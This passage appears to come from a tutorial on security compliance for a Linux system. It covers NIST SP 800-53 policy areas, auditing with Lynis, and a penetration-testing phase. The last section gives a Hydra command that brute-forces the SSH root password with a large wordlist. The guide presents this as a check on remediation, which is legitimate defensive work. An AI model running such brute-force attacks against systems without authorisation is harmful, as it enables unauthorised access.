We will define the purpose, the authentication method(s), the configuration needed and the general principles the company must adhere (like the Nist Sp 800-53).
<br>
We will create a table specifying the Policy Area - Control ID - Policy Statements that must follow the guidelines we decided to use (like the Nist Sp 800-53) for the categories such as: 
<li>Access Control (AC)</li>
<li>Audit and Accountability (AU)</li>
<li>Configuration Management</li>
<li>Identification and Authentication</li>
<li>System and Information Integrity (SI)</li>
<li>Maintenance (MA)</li>


### Phase 2 - Security Auditing with Lynis

Lynis is a Linux tool that can do an health scan of your system for compliance testing.
<br>
First thing is to download the latest Lynis version, then you can install it and perform different types of system auditing.

```bash
# Download and install Lynis
chmod +x ./lynis  # Make it executable
./lynis audit system  # Start an audit for your local system (you can specify different types of audit)
```

Now Lynis will perform a check on your whole local system and you'll see its suggestions and the vulnerabilities or weaknesses it found.
<br>
You can see which of these are relevant for the Policy you want to use and try to improve following its results.
<br>
You can specify what kind of controls it must follow:

```bash
./lynis audit system --tests HRDN-7230  # Make an audit check trying to follow the HRDN-7230 for our malware detection systems
```

You can save the results renaming them:

```bash
./lynis audit system --auditor "name"  # Save the results with a name
```

### Phase 3 - Conduct Penetration Test

We have to test the effectiveness of the audit remediation by performing a penetration testing, so we can very if the system is now secure (or more secure).
<br>
With penetration testing we can very if the vulnerabilities or weaknesses are resolved.
<br>
We will create a final report with our findings.
<br>
Here are some examples of what we can do:

```bash
hydra -l root -P /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt ssh:target-ip:target-port -t 2 -v  # Use Hydra to check, with brute-force, if the password is still vulnerable in the SSH service
```

In this example, Hydra managed to find that the password on the SSH is still vulnerable, so we can report it and proceed increasing its complexity or trying to change some ssh configurations on our system.
